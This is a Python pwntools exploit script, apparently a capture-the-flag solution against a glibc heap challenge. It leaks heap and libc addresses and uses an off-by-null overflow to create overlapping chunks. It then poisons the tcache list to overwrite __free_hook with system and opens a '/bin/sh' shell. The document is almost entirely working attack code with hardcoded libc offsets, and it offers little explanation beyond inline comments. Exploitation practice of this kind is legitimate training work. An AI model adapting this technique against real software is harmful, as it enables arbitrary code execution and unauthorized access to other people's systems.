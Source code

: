 ```python
for i in range(5):
    log.info("Allocating 0x%03x (overflowing)" % (0x1f0 - (i * 0x10)))
    r.write(b"A" * (0x1f0 - (i * 0x10) - 9) + b'\n' + b'\0'); sleep(deltat)
# Last one doesn't need to be overflowed
log.info("Allocating 0x1a0")
create_chunk(0x1a0); sleep(deltat)

### Leak heap ###
r.clean()
log.info("Allocating 0x100 (leaking)")
create_chunk(0x100, b"A")
heap = int.from_bytes(r.read()[-6:], "little") - 0xa41
log.info("Heap : 0x%06x" % heap)

### Insert a chunk in unsorted ###
log.info("Allocating 0x30")
create_chunk(0x30)
log.info("Allocating 0x120")
data  = b''
data += b"A" * (0x100 - 0x10)
data += p64(0xaaaaaaaaaaaaaaaa) # prev_size
data += p64(0x21)               # size
data += b"A" * 0x10
create_chunk(0x120, data)

log.info("Allocating 0x30 (overflowing)")
data  = b''
data += p64(0xaaaaaaaaaaaaaaaa) # prev_size <----+
data += p64(0x21)               # size           |
data += p64(heap + 0xe10)       # ---------------+
data += p64(heap + 0xe10)
data += p64(0x20) # Next's prev size
data += b'\0'     # Off by null into next's size
create_chunk(0x30, data)

log.info("Allocating 0x120 (moving to unsorted)")
# Reach the nullbyte placed when allocating 0x30
r.write(b"A" * (0x30 - 8 + 1)); sleep(deltat)

log.info("Allocating 0x120 (leaking)")
r.clean()
r.write(b"A" * 8); sleep(deltat)
libc = int.from_bytes(r.read()[-6:], "little") - 0x3ebca0
log.info("Libc : 0x%x" % libc)
system = libc + 0x4f440

log.info("Allocating 0x30 (exploit overlapping chunks)")
data  = b''
data += b"A" * 0x8 # Reach fake chunk's fd pointer within 0x30 chunk
# Change its size to anything other than 0x120 to prevent it from
# going back to the 0x120 bin
data += p64(0x130)
data += p64(libc + 0x3ed8e0) # Pointer to __free_hook - 8 as next entry in list
create_chunk(0x30, data)

log.info("Allocating 0x120 twice, overwriting __free_hook and triggering it")
# Will first remove chunk from list and then allocate a pointer to __free_hook-8
create_chunk(0x120, b"/bin/sh;" + p64(system)[:6])

r.clean()
r.interactive()
```
```
```